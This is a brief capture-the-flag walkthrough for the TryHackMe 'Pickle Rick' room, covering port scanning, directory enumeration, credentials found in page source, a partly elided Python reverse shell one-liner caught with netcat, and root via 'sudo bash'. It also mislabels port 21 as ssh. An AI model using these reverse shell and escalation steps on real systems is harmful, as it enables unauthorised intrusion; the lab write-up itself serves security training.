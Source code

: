 ```yaml
---
title: Pickle Rick WalkThrough
permalink: /pickleRick
layout: page
tags: TryHackMe
---
```

# Picke Rick
# ![front](/images/pickleRick/front.png)
[https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

## Open Ports:
  - 21: ssh
  - 80: HTTP
  
## Port 80:
1. find sub-doamisn and directories usind **dirb** + **dirbuster**
   - ip/robots.txt **(we find passwd)**
   - ip/index **(username in the source Page)**
   - ip/portal.php **(found username and password)**
   
## Gaining Access:
 **We find a terminal inside the website**
 - Add the python reverse shell command
 	```
	 	python -c 'import ......os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	 ```

 - listening via netcat will gain you access to the **BOX**
### 1st Flag:
![user_flag](/images/pickleRick/1st.png)
### 2nd Flag:
![user_flag](/images/pickleRick/2nd.png) 


## Privilege Escalation:
 - sudo -l
    - All users are sudp 
    	```
      		'sudo bash'
    	```
### 3rd Flag:
![rootflag.png](/images/pickleRick/3rd.png)
